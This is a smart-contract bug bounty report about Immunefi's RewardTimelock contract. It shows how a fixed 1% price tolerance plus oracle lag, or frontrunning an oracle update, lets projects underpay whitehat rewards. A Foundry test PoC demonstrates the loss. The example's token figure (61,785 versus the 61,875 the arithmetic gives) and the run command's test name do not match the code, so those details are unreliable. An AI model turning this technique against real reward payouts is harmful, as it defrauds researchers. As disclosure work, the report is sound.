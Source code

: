 
# Projects can pay rewards at up to 2.97% below market value due to hardcoded price deviation tolerance

Submitted on Mon Apr 01 2024 14:45:03 GMT-0400 (Atlantic Standard Time) by @marchev for [Boost | Immunefi Arbitration](https://immunefi.com/bounty/immunefiarbitration-boost/)

Report ID: #29744

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/immunefi-team/vaults/blob/main/src/RewardTimelock.sol

Impacts:
- Theft of unclaimed royalties

## Description
## Brief/Intro

Due to a hardcoded setting in the protocol (`PRICE_DEVIATION_TOLERANCE_BPS`) allowing for a 1% price deviation of whitehat awards when paid in non-native tokens and the potential 2% deviation for Chainlink's price feeds for some tokens (e.g. ARB, ENS, FXS, etc.), there's a risk that whitehat hackers could be underpaid by up to 2.97%. This issue arises when the actual market price of an asset falls slightly, such as by 1.99%, which doesn't trigger an oracle update. This results in a temporarily inflated asset price reported by the Chainlink price oracle. This combined with the ability to pay a reward with a deviation of 1% could be exploited by projects to underpay whitehats.

## Vulnerability Details

The vulnerability centers around the `RewardTimelock` smart contract, which handles reward payouts to whitehats during arbitration. Projects specify the dollar value of the award, and after a cooldown period, they can pay in tokens. The smart contract checks if the token amount matches the dollar value, allowing a 1% deviation. However, some tokens have a 2% price deviation in their Chainlink price feeds. If the token's market price drops just below 2%, a project can pay the whitehat less than the full market value, exploiting the gap up to 2.97%:

```
100 - ((100 - 1.99%) * 99%) = 2.97%
```

Furthermore, projects have the capability to exploit the vulnerability even when the price drops more than 2% below the oracle price. They can do this by frontrunning the transaction meant to update the Oracle price feed. This maneuver provides a significant safety margin.

**Example:**

1. A project owes a whitehat $100,000, paid in ARB tokens.
2. After the cooldown, the ARB/USD price by the oracle is $1.60, but the market price is $1.5688.
3. The project pays 61,785 ARB instead of the 63,742.99 ARB due at market rates.

While the price oracle price deviation cannot be avoided, adjusting the hardcoded `PRICE_DEVIATION_TOLERANCE_BPS` to be more flexible and specific to token's price feed could mitigate this issue to a certain extent. This is especially important for feeds that update less frequently as indicated by a 2% deviation and a 86400s heartbeat. It should be noted that all Chainlink price feeds on mainnet with a deviation of 2% have a hearbeat of 86400s which implies they are meant to update less frequently which reduces the need for a favorable price deviation tolerance as high as 1%.

## Impact Details

The hardcoded deviation combined with Chainlink's deviation can lead to significant losses for whitehats. This risk is medium, as it depends on specific price feed deviations (2%) and market conditions. The severity is also considered medium due to the financial impact on whitehats. A more adaptable configuration for the reward value deviation could mitigate the issue.
        
## Proof of concept
## Proof of Concept

To illustrate the vulnerability, I provide a coded PoC which demonstrates its impact. Add the following test case to `RewardTimelock.t.sol`:

```sol
    function test_project_can_pay_reward_at_up_to_2_97_percent_below_market_value() public {
        // Token in which the award is paid
        ERC20PresetMinterPauser token = new ERC20PresetMinterPauser("Arbitrum", "ARB");
        token.mint(address(vault), 1_000_000e18);

        uint256 ARB_USD_PRICE_SCALE = 1e8;

        uint256 arbUsdOraclePrice = 1.60e8;   // ARB/USD oracle price = 1.60000000
        uint256 arbUsdMarketPrice = 1.5688e8; // ARB/USD market price = 1.56880000 (1.95% below oracle price)
                                              // NOTE: Deviation for ARB/USD chainlink oracle = [-2%; 2%].
                                              // Thus, -1.95% below oracle price does not trigger an oracle  update.

        uint256 dollarAmount = 100_000;
        uint256 tokenAmountPerOraclePrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdOraclePrice;
        uint256 tokenAmountPerOraclePriceMinus1Percent = (tokenAmountPerOraclePrice * 99_00) / 100_00;
        uint256 tokenAmountPerMarketPrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdMarketPrice;

        // set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        uint256 nonce = rewardTimelock.vaultTxNonce(address(vault));
        bytes32 txHash = rewardTimelock.getQueueTransactionHash(address(this), dollarAmount, address(vault), nonce);

        // Mock vaultIsInArbitration
        vm.mockCall(
            address(arbitration),
            abi.encodeCall(arbitration.vaultIsInArbitration, (address(vault))),
            abi.encode(true)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.queueRewardTransaction, (address(this), dollarAmount)),
            Enum.Operation.Call
        );
        assertEq(rewardTimelock.vaultTxNonce(address(vault)), nonce + 1);

        vm.warp(block.timestamp + rewardTimelock.txCooldown());
        assertTrue(rewardTimelock.canExecuteTransaction(txHash));

        Rewards.ERC20Reward[] memory erc20Rewards = new Rewards.ERC20Reward[](1);
        erc20Rewards[0] = Rewards.ERC20Reward({ token: address(token), amount: tokenAmountPerOraclePriceMinus1Percent });

        // Mock priceConsumer
        vm.mockCall(
            address(priceConsumer),
            abi.encodeCall(priceConsumer.tryGetSaneUsdPrice18Decimals, (address(token))),
            abi.encode(uint256(arbUsdOraclePrice) * 1e10)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.executeRewardTransaction, (txHash, 0, erc20Rewards, 0, 50_000)),
            Enum.Operation.Call
        );
        assertEq(token.balanceOf(address(this)), tokenAmountPerOraclePriceMinus1Percent);

        uint256 whitehatLossAbsolute = tokenAmountPerMarketPrice - tokenAmountPerOraclePriceMinus1Percent;
        uint256 whitehatLossPercentage = whitehatLossAbsolute * 100_00 / tokenAmountPerMarketPrice;

        console.log("--------------------------------------");
        console.log("ARB/USD oracle price = %s (8 decimals)", arbUsdOraclePrice);
        console.log("ARB/USD market price = %s (8 decimals)", arbUsdMarketPrice);
        console.log("--------------------------------------");
        console.log("Dollar amount: $%s", dollarAmount);
        console.log("Expected ARB amount (per market price): %s", tokenAmountPerMarketPrice);
        console.log("Actual ARB amount (per oracle price minus 1 percent): %s", tokenAmountPerOraclePriceMinus1Percent);
        console.log("Loss for whitehat (absolute): %s", whitehatLossAbsolute);
        console.log("Loss for whitehat (%): %s", getPercentageString(whitehatLossPercentage), "%");
        console.log("--------------------------------------");
    }
```

Run the PoC via the following command:

```sh
forge test --mt "test_project_can_pay_reward_at_up_to_2_99_percent_below_market_value" -vvvvv
```